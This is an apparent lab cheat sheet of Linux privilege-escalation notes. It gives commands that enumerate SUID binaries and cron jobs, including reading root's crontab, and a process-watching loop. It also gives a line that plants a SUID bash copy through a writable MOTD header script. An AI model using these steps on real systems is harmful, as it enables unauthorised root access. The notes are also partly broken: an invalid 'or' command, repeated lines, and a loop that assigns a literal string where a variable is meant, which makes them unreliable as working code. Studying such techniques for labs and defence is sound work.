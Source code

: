  https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
# Check for crons



```bash
find / -perm -4000 2>/dev/null # find SUID 
cat /etc/crontab or crontab -l #  find cron jobs

cat /etc/cron* /etc/at* /etc/anacrontab /var/spool/cron/crontabs/root 2>/dev/null | grep -v "^#" # crongs

ls -al /etc/cron* /etc/at* # find crons

# Check for what from /usr changing what in /home/student/message
grep -rnw /usr -e "PATH TO THE FILE BEING UPDATED" # eg. /home/student/message
```

## script
```
#!/bin/bash

IFS=$'\n'
old_process=$(ps -eo command)

while true; do 
  new_process=$(ps -eo command)
  diff <(echo "$old_process") <(echo "$new_process")  |grep [\<\>]
  sleep 1 
  old_process=new_process 
done
```
# writable MOTD

echo "cp /bin/bash /home/name/bash && chmod u+s /home/name/bash" >> 00-header

# SUID

find / -perm -4000 2>/dev/null find SUID 
cat /etc/crontab or crontab -l  find cron jobs
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
 